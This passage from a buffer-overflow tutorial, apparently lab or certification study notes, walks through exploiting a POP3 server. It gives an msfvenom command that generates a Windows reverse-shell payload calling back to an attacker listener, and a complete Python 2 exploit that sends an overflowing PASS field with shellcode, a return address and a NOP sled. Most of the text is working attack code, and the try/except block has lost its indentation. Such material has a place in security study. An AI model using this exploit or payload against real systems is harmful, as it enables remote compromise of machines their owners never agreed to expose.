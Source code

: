 ### 6. Make shellcode excluding bad chars and insert to python script
We can create the shellcode with Metasploit tool **msfvenom**. This takes the arguments for you listening IP address (of your Kali machine, and the port you will be listening on - using netcat). The other argument of interest here is to exclude the bad characters we found earlier.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.160 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
```
The resulting shellcode is 351 bytes long and will be assigned to the variable **shellcode** in the Python exploit.

### 7. Add shellcode to python script with nop sled. Get a shell
```python
buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode
```
The complete exploit now looks like this:
```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

shellcode = ("\xdb\xde\xbb\x17\xc8\x2c\x1f\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"
"\x52\x31\x5a\x17\x83\xea\xfc\x03\x4d\xdb\xce\xea\x8d\x33\x8c"
"\x15\x6d\xc4\xf1\x9c\x88\xf5\x31\xfa\xd9\xa6\x81\x88\x8f\x4a"
"\x69\xdc\x3b\xd8\x1f\xc9\x4c\x69\x95\x2f\x63\x6a\x86\x0c\xe2"
"\xe8\xd5\x40\xc4\xd1\x15\x95\x05\x15\x4b\x54\x57\xce\x07\xcb"
"\x47\x7b\x5d\xd0\xec\x37\x73\x50\x11\x8f\x72\x71\x84\x9b\x2c"
"\x51\x27\x4f\x45\xd8\x3f\x8c\x60\x92\xb4\x66\x1e\x25\x1c\xb7"
"\xdf\x8a\x61\x77\x12\xd2\xa6\xb0\xcd\xa1\xde\xc2\x70\xb2\x25"
"\xb8\xae\x37\xbd\x1a\x24\xef\x19\x9a\xe9\x76\xea\x90\x46\xfc"
"\xb4\xb4\x59\xd1\xcf\xc1\xd2\xd4\x1f\x40\xa0\xf2\xbb\x08\x72"
"\x9a\x9a\xf4\xd5\xa3\xfc\x56\x89\x01\x77\x7a\xde\x3b\xda\x13"
"\x13\x76\xe4\xe3\x3b\x01\x97\xd1\xe4\xb9\x3f\x5a\x6c\x64\xb8"
"\x9d\x47\xd0\x56\x60\x68\x21\x7f\xa7\x3c\x71\x17\x0e\x3d\x1a"
"\xe7\xaf\xe8\x8d\xb7\x1f\x43\x6e\x67\xe0\x33\x06\x6d\xef\x6c"
"\x36\x8e\x25\x05\xdd\x75\xae\x20\x29\x75\x80\x5d\x2f\x75\xdd"
"\x26\xa6\x93\xb7\x48\xef\x0c\x20\xf0\xaa\xc6\xd1\xfd\x60\xa3"
"\xd2\x76\x87\x54\x9c\x7e\xe2\x46\x49\x8f\xb9\x34\xdc\x90\x17"
"\x50\x82\x03\xfc\xa0\xcd\x3f\xab\xf7\x9a\x8e\xa2\x9d\x36\xa8"
"\x1c\x83\xca\x2c\x66\x07\x11\x8d\x69\x86\xd4\xa9\x4d\x98\x20"
"\x31\xca\xcc\xfc\x64\x84\xba\xba\xde\x66\x14\x15\x8c\x20\xf0"
"\xe0\xfe\xf2\x86\xec\x2a\x85\x66\x5c\x83\xd0\x99\x51\x43\xd5"
"\xe2\x8f\xf3\x1a\x39\x14\x03\x51\x63\x3d\x8c\x3c\xf6\x7f\xd1"
"\xbe\x2d\x43\xec\x3c\xc7\x3c\x0b\x5c\xa2\x39\x57\xda\x5f\x30"
"\xc8\x8f\x5f\xe7\xe9\x85")

buffer = "A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" *20 + shellcode

try:
print "\nSending buffer..."
s.connect(('10.1.1.1',110))
data = s.recv(1024)
s.send('USER username' +'\r\n')
data = s.recv(1024)
s.send('PASS ' + buffer + '\r\n')
print "\nDone!."
except:
print "Could not connect to POP3!"
```
